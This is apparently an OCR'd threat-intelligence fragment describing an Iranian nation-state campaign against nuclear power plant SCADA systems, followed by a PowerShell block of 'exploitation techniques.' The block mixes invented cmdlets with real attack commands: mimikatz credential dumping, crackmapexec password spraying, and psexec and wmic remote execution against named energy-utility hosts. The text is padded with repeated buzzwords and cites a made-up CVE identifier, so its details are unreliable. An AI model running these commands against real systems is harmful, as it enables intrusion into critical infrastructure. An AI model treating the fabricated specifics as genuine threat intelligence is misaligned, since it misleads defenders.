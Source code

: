 ```
[2024-12-18] Strategic Nuclear Power Plant SCADA System Iranian Infiltration
Target: Nuclear power generation facility with critical national energy security and strategic energy coordination significance
Exploitation: Iranian nation-state advanced persistent threat targeting nuclear facility control systems and strategic energy coordination
Access: Nuclear plant supervisory control and strategic energy emergency response coordination systems
Strategic Capability: Nuclear generation monitoring and strategic energy emergency coordination for Iranian nation-state positioning
Confidence: Medium (nuclear facility security coordination, strategic energy trend data analysis, Iranian behavioral assessment)
Evidence Sources: Nuclear facility cybersecurity coordination, strategic energy historian analysis, Iranian nation-state intelligence coordination
```

**Iranian Nation-State Strategic Energy SCADA Exploitation Techniques with Enhanced Analysis:**
```powershell
# CYBERAV3NGERS Iranian strategic energy SCADA exploitation observed
# Advanced Iranian nation-state operational technology targeting and strategic energy infrastructure compromise

# Iranian Strategic Energy Facility SCADA Web Interface Exploitation
$iranian_strategic_energy_targets = Get-StrategicEnergyInfrastructure | Where-Object {$_.SCADAInterface -eq "Strategic-Web-Enabled"}
ForEach ($target in $iranian_strategic_energy_targets) {
    # Advanced Iranian nation-state SCADA vulnerability exploitation
    Exploit-IranianStrategicEnergySCADAInterface -Target $target.StrategicHMIAddress -Vulnerability "CVE-2024-STRATEGIC-ENERGY-001"
    Establish-IranianStrategicEnergyAccess -Target $target -Credentials $iranian_strategic_energy_creds
    Maintain-IranianStrategicOperationalStealth -Target $target -AvoidStrategicEnergySystemDisruption $true
}

# Iranian Nation-State Strategic Energy Protocol Authentication Bypass
iranian_strategic_modbus_exploit --target strategic_energy_modbus_networks.txt --function-code 16 --payload iranian_strategic_energy_access
iranian_strategic_dnp3_authentication_bypass --strategic-energy-utilities --strategic-historian-database-access
iranian_strategic_iec61850_mms_exploitation --strategic-grid-coordination --national-energy-market-interface

# Strategic Energy Management System Iranian Credential Harvesting
mimikatz "privilege::debug" "sekurlsa::logonpasswords" | findstr /i "strategic energy grid ems national"
Invoke-IranianStrategicEnergyCredentialHarvesting -Target $target.StrategicEnergyManagementSystem
crackmapexec smb strategic_energy_ot_networks.txt -u iranian_strategic_energy_users.txt -p strategic_energy_passwords.txt

# Iranian Strategic Energy Operational Technology Access Establishment
psexec \\strategic-scada-primary.strategic-powerplant.us-energy-utility.gov cmd.exe
wmic /node:strategic-grid-control.strategic-transmission-operator.org process call create "iranian_strategic_energy_access.exe"
Invoke-IranianStrategicEnergyOTAccess -Target $target.StrategicEnergyControlSystems -Method "Iranian-Nation-State-Strategic"
```
